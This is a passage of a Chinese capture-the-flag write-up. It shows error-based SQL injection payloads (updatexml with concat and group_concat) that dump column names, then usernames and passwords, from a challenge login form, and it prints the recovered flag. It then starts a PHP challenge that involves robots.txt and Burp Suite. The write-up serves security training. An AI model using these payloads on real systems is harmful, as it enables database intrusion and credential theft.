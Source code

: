 得到表名为'~H4rDsql~' 构建payload去爆字段名

```sql
username=1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_schema)like(database())),0x7e),1))#
password=1
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732250700420-3c81d32b-1882-4e36-878c-c0019ca28ef8.png)

发现字段名有id username password

构建payload去爆字段名的值

```sql
username=1'or(updatexml(1,concat(0x7e,(select(group_concat(id,username,password))from(H4rDsq1)),0x7e),1))#
password=1
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732251461961-d4b7a091-d7da-4f92-99e7-b35e957ad322.png)

发现flag但是只有一半 我们可以利用right函数把右边的那部分给爆出来

新的payload

```sql
username=1'or(updatexml(1,concat(0x7e,(select(group_concat(right(password,25)))from(H4rDsq1)),0x7e),1))#
password=1
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732251797766-87989482-b021-4f0f-8235-99d9f27a52ee.png)

拼接起来得到flag

```sql
flag{c69ed473-7a5f-48be-a6cd-950392dcb940}
```

## [比较复杂一点的题目，关于php]
打开靶机后查看原代码 发现提示bot 怀疑是不是存在robots协议

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736649973206-9dfbaf53-86c4-4c3c-84a8-0c52cc2c3052.png)

访问robots.txt  提示/fAke_f1agggg.php

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736650007339-d9f4f13f-7c49-4d37-b9bb-5aa3fc824e7c.png)

接着访问/fAke_f1agggg.php 但是好像被骗了

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736650101406-d4c15385-a35c-4800-ac24-fcaaa6d2f4ac.png)

尝试使用burpsite抓包找线索 最后在访问/fAke_f1agggg.php的响应包中找到线索

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736650430567-110fa534-da28-4f27-974f-25dfe9282f18.png)

